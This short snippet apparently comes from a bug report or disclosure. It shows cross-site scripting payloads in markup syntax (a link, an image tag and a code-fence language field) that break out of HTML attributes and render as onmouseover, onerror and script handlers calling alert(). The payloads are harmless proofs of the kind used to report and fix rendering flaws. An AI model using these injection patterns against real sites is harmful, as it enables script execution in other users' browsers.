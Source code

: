 link:bla"onmouseover="alert(1)[KLIK HIER]
  Results in: <a onmouseover="alert(1)" href="bla">KLIK HIER</a>
image:https://gitlab-a.ing.net/fake.png[Alt text" onerror="alert(7)]
  Results in: <img onerror="alert(7)" alt="Alt text" src="https://gitlab-a.ing.net/fake.png">
```blaat"><script>alert(3)</script>
  Results in: <pre lang="blaat"><script>alert(3)</script>"&gt;<code></code></pre>
